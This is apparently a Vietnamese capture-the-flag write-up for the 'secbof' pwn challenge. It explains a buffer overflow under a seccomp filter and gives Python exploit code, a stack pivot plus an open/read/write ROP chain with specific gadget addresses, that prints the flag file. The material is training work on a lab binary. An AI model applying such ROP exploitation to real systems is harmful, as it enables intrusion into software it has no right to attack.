

# secbof
## Challenge
[chall](secbof)
## Find vulnerabilities
- Đọc qua code ta thấy lỗ hổng buffer overflow và lớp bảo vệ seccomp trong hàm install_filter


- Kiểm tra seccomp xem chúng ta được dùng những hàm nào:


Chúng ta được dùng các hàm open, read, write và exit
- Kiểm tra các lớp bảo vệ:



NX bật để chống shellcode và PIE tắt
- Như vậy ta có thể exploit theo các bước sau:

B1: Stack pivot vào vùng nhớ ngoài

B2: Dùng ROPgadget để in ra flag
## Exploit
Bước 1: Stack pivot vào vùng nhớ ngoài
```python3
rw_section = 0x4c6a00
payload = b'a'*0x80 + p64(rw_section) + p64(exe.sym['main'] + 97)
p.sendlineafter(b'Input> ', payload)
```
Bước 2: Dùng ROPgadget
- Để có thể open, read, write thì chúng ta phải thỏa mãn điều kiện sau:


- Lấy lần lượt các ROPgadget pop rdi, pop rsi, pop rdx, pop rax và syscall
- Lần nhập tiếp theo, chúng ta truyền vào `flag.txt\0`, tiếp tục stack pivot và truyền vào các syscall. Chúng ta truyền vào các hàm open, read, write theo lý thuyết:
```python3
rw_section = 0x4c6a00
pop_rdi = 0x000000000040204f
pop_rsi = 0x000000000040a0be
pop_rdx_rbx = 0x000000000048630b
pop_rax = 0x0000000000450507
syscall = 0x0000000000401e04
payload = b'flag.txt\0'
payload = payload.ljust(0x80, b'a') + p64(rw_section)
# open
payload += p64(pop_rax) + p64(0x2) + p64(pop_rdi) + p64(rw_section - 0x80) + p64(pop_rsi) + p64(0)
payload += p64(pop_rdx_rbx) + p64(0) + p64(0) + p64(syscall)
# read
payload += p64(pop_rax) + p64(0) + p64(pop_rsi) + p64(rw_section + 0x150) 
payload += p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
# write
payload += p64(pop_rax) + p64(1) + p64(pop_rdi) + p64(1) + p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
p.sendline(payload)
```
- Có 1 vấn đề là khi chúng ta thực hiện syscall read thì thanh ghi rax có giá trị bằng 0 có nghĩa rằng chương trình không mở được file `flag.txt`. Lỗi nằm ở ROP syscall


Sau khi thực hiện syscall xong thì chương trình nhảy vào 0x401e00, đó là điều chúng ta không mong muốn.
- Do đó, chúng ta phải tìm ROP syscall có câu lệnh ret và không được nhảy hay gọi bất cứ địa chỉ hoặc thanh ghi nào.

Đây là syscall chúng ta cần tìm kiếm


- Sửa payload:
```python3
rw_section = 0x4c6a00
pop_rdi = 0x000000000040204f
pop_rsi = 0x000000000040a0be
pop_rdx_rbx = 0x000000000048630b
pop_rax = 0x0000000000450507
# syscall = 0x0000000000401e04
syscall = 0x4816f2
payload = b'flag.txt\0'
payload = payload.ljust(0x80, b'a') + p64(rw_section)
# open
payload += p64(pop_rax) + p64(0x2) + p64(pop_rdi) + p64(rw_section - 0x80) + p64(pop_rsi) + p64(0)
payload += p64(pop_rdx_rbx) + p64(0) + p64(0) + p64(syscall)
# read
payload += p64(pop_rax) + p64(0) + p64(pop_rsi) + p64(rw_section + 0x150) 
payload += p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
# write
payload += p64(pop_rax) + p64(1) + p64(pop_rdi) + p64(1) + p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
p.sendline(payload)
```
- Chương trình quay lại hàm open. Chúng ta phải sửa lại rbp trước khi ret ở hàm main và phải thêm 1 địa chỉ phù hợp nữa sau syscall open để nhảy vào pop rax tiếp theo vì sau syscall có lệnh pop rbp
```python3
payload = b'flag.txt\0'
payload = payload.ljust(0x80, b'a') + p64(rw_section + 0x58)
# open
payload += p64(pop_rax) + p64(0x2) + p64(pop_rdi) + p64(rw_section - 0x80) + p64(pop_rsi) + p64(0)
payload += p64(pop_rdx_rbx) + p64(0) + p64(0) + p64(syscall) + p64(0x4c6ae0 - 0x8)
```
Trong đó, rw_section + 0x58 trỏ tới 0x4c6ae0 - 0x8 và 0x4c6ae0 - 0x8 trỏ tới syscall open để khi nhảy tới lệnh ret thì chương trình sẽ thực thi syscall tiếp theo 
- Chạy syscall read thất bại.


- Lý do là bởi chúng ta chưa chuyển dữ liệu từ thanh ghi rax vào rdi, do đó ta phải tìm thêm 1 ROPgadget mới

`ROPgadget --binary chal | grep "xchg edi, eax"`


- Kiểm tra thấy ROPgadget này hợp lệ, ta sửa lại payload:
```python3
# read
payload += p64(xchg_edi_eax) + b'a'*0x38 + p64(pop_rax) + p64(0) + p64(pop_rsi) + p64(rw_section + 0x150) 
payload += p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
# write
payload += p64(pop_rax) + p64(1) + p64(pop_rdi) + p64(1) + p64(pop_rdx_rbx) + p64(100) + p64(0) + p64(syscall)
p.sendline(payload)
```
Ta phải truyền thêm 0x38 bytes rác vì có lệnh `add rsp, 0x38`
- Đến đây thì chương trình chạy thành công và ta đã lấy được flag
## Payload
[script](solve.py)
## Flag
```utflag{r0p_with_4_littl3_catch}```